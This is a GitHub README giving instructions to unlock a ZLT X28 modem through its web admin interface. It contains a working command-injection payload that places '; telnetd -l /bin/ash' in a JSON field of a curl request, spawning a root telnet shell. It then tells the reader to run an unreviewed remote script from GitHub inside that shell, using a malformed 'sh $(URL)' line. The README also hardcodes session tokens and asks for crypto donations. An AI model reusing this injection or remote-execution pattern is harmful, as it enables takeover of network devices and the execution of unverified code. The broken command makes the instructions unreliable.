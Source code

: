 <!-- README.md -->

# 🔓 ZLT X28 | ZLT X28 Modem Unlock

---

### ✨ ZLT X28 Modem Unlock & Custom Admin Panel
![](img/zlt.jpg)


### 📊 Device Specifications

| Model | Software Version |
|------------|----------------|
| ZLT X28    | 1.5.13         |

## 🚨 Serious warning
**If your modem version is different and you use this method, the modem panel will break.**

---
## Overview  
The ZLT X28 modem is based on a customized snapshot of [OpenWrt](https://www.google.com/search?q=OpenWrt). Unlocking this modem is straightforward but requires access to another modem (any brand or model) with an active internet connection.  

## Prerequisites  
- A second modem with internet access  
- LAN cable  
- Basic command-line knowledge  

## Step 1: Obtain `sessionId`  
Before anything else, you need to extract the ‍`sessionId`.  

Open your browser’s **Developer Tools**. The default shortcuts are:  

- **Windows/Linux**:  
  - `F12` → Opens the last used developer tools panel  
  - `Ctrl + Shift + I` → Opens developer tools  
  - `Ctrl + Shift + J` → Opens the Console panel  
  - `Ctrl + Shift + C` → Opens the Elements panel  

- **macOS**:  
  - `Option + Command + I` → Opens developer tools  
  - `Option + Command + J` → Opens the Console panel  
  - `Option + Command + C` → Opens the Elements panel  

- **Other methods**:  
  - Right-click any element → **Inspect / Inspect Element**  
  - Safari: Enable the Developer menu in **Preferences > Advanced**, then use **Develop > Show Web Inspector**.  

Inside Developer Tools, switch to the **Network** tab, select any request, and copy the `sessionId` value. Save it for later use.  

![](img/sessionId.png)

## Step 2: Enable WAN  
Connect a LAN cable from the internet-enabled modem to **Port 1** of the ZLT X28. This step is mandatory to activate **DMZ**, which cannot be enabled otherwise.  

Next, activate **WAN** on the ZLT X28 as shown below:  

![](img/enable-wan.png)

You can also enable WAN with this command and replacing `sessionId`.
```bash
curl 'https://192.168.70.1/cgi-bin/http.cgi' -X POST --data-raw '{"method":"POST","cmd":302,"LinkMode":"linkIP","IpVersion":"IPV4","IpMode":"dhcp","MTU":1500,"MRU":"","IpAddr4":"","Submask4":"","Gateway4":"","FirstDns4":"","SecDns4":"","NatEnable":"1","UserName":"","PassWd":"","priorityStrategy":"1","uisMode":"0","networkMode":"2","wifiMode2":"0","wifiMode5":"0","MacClone":"","vlanId":"","Dhcpv6Mode":"Yes","IpAddr6":"","IpAddr6Len":"","Gateway6":"","FirstDns6":"","SecDns6":"","wanRouter":"1","apnRouter0":"0","apnRouter1":"0","apnRouter2":"0","apnRouter3":"0","wifi2Router":"0","wifi5Router":"0","token":"cd55e4e9b9e941b0bf949db815d104d9","language":"EN","sessionId":"<YOUR_SESSION_ID>"}' -k

```

## Step 3: Enable Telnet  
Run the following command from your system’s terminal, replacing the placeholder `sessionId` with the one you retrieved earlier:  

```bash
curl 'https://192.168.70.1/cgi-bin/http.cgi' \
--data-raw '{"enabled":"1","ip":"192.168.1.1 ; telnetd -l /bin/ash","cmd":172,"method":"POST","success":true,"subcmd":6,"token":"5948b69147b3850eee5e7266188934c5","language":"EN","sessionId":"<YOUR_SESSION_ID>"}' -k
```

After this, Telnet will be enabled. Connect using:

```bash
telnet 192.168.70.1
```
## Step 4: Execute Unlock Script

Once inside Telnet, run the following command:
```bash
sh $(https://github.com/mahdigh782/Unlock-ZLT-X28/raw/refs/heads/main/x28)
```
The modem will restart after a few seconds. Once it powers back on, it will be unlocked.

## Donations

If you found this useful, you can support development via TRON (TRX):

💠 Wallet Address: TXDhVJDtkBUq2KN3QYZW4zDtkJkLLwFVgb


### 📞 Contact
📬 Telegram: @zlt_x28_unlock
---

#ZLT_X28 #Modem_Unlock #Admin_Panel_Access #Custom_Modem_UI #Firmware_Upgrade #4G_Modem_Unlock #Network_Unlock_ZLT #ZLT_Admin_Unlock


